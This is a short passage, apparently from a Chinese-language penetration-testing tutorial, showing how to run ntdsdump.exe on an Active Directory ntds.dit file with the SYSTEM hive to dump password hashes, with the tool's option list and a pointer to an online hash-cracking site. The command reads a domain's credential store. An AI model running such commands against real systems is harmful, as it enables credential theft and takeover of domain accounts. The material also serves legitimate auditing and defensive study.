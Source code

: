 ```plain
ntdsdump.exe -f ntds.dit -s SYSTEM

#参数说明：
ntdsdump.exe <-f ntds.dit> <-k HEX-SYS-KEY | -s system.hiv> [-o out.txt] [-h] [-t JOHN|LC]
-f    ntds.dit 路径
-k   可选的十六进制格式的 SYSKEY
-s    可选的 system.hiv 路径
-h   导出历史密码记录
-t    导出格式，LC 或 JOHN
-o   导出到指定文件中
```

[![](assets/1706090550-7235cf01f76dafaab2f3651ec49ec3ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124094948-db1093c6-ba5a-1.png)  
之后在 CMd5 解密网站进行解密解密即可：[https://www.cmd5.org/](https://www.cmd5.org/)  
[![](assets/1706090550-630fbb08862b408f9f298b1313703cee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124094958-e15aff14-ba5a-1.png)
